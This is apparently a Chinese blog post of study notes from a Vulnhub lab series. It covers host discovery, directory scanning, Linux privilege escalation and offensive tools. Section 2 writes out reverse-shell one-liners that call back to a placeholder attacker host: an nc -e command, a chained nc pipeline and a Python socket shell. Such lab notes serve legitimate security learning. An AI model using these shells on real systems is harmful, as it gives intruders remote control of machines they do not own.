 ```yaml
---
title: Conclusion1_Chapter1~5
categories:
- Network_Security
- Vulnhub
- Conclusion
tags:
- Network_Security
- Vulnhub
date: 2024-02-02 14:25:19
---
```


# 总结（Chapter 1-5）

## 1. 外围探测与扫描

### 1.1 主机发现

1. arp-scan，基于 arp

2. arping
    虽然它是 Linux 发行版常见的工具，但注意其并不支持网段的扫描，需要结合 Shell 脚本语言使用，例子：

    ```bash
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

3. netdiscover，也是基于 arp 的工具，实际使用时，掩码需要 -8：
    `sudo netdiscover -r 网段/实际掩码 - 8`

4. nmap

### 1.2 目录扫描

1. dirsearch 轻量级。
2. feroxbuster 结合 seclists 来进行大规模的目录扫描。

## 2. Shell 的获取

### 2.1 通过 NC

1. 查看是否有 NC：`which nc`。
2. 高版本 NC 反弹 Shell：
    `nc kali-ip kali-端口 -e /bin/sh`
3. 低版本 NC 串联：
    `nc kali-ip kali-端口-1 | /bin/bash | /bin/nc kali-ip kali-端口-2 # nc 串联，使用 | 将结果向后传递。`

### 2.2 通过其他途径

1. python：
    ```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('kali-ip', kali-端口))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(['/bin/sh','-i'])
    ```

    如果是命令，就需要 `python -c "上述代码"`。注意单双引号。

2. 修改源代码，上线 WebShell 工具。

### 2.3 交互性的增加

1. 初步增加：
    `python -c "import pty; pty.spawn('/bin/bash')"`

2. 完全的即时交互：

    > https://www.endlessshw.top/2024/01/23/Network_Security/Vulnhub_Journey/Chapter4_Medium_AdmX_New/Chapter4_Medium_AdmX_New/#1-2-%E6%8B%BF%E5%88%B0-Shell-%E4%B8%8E-Shell-%E4%BF%9D%E6%8C%81

## 3. 提权

### 3.1 内核提权

1. 查看内核相关信息：
    ```bash
    uname -a # 查看内核
    lsb_release -a # 查看 OS 版本
    ```

2. `search Linux 版本` 寻找 EXP。

3. CVE-2021-3493

### 3.2 suid 提权

1. 先找权限是 S 的文件。
2. 查看其文件，分析源代码，尝试构造出提权命令。

### 3.3 sudo 提权

1. 先从常见的工具入手，是否可以 sudo 提权

2. `sudo -l` 查看当前用户可以通过 `sudo` 使用的命令和工具，通过具体的工具和命令进行提权：

    > https://ihsansencan.github.io/privilege-escalation/linux/binaries/
    >
    > https://haiclover.github.io/gtfobins/node/
    >
    > 学会使用谷歌，好多东西中文互联网未必搜得到。

### 3.4 其他较为通用的提权方式

1. lxd 提权
2. MySQL UDF 提权

## 4. 一些杂项和思想

1. Burpsuite 可以一次性修改发送包和接受包的某些内容（通过正则匹配）。
2. cyberchef 工具用于加解密。
3. 密码交叉复用的思想！
4. Venom 内网穿透工具。
5. PWN 要学，GDB 调试工具的使用，Python 的 `struct` 包。
6. exp 要学会查看，视具体报错情况还得修改。
7. docker 容器的判断。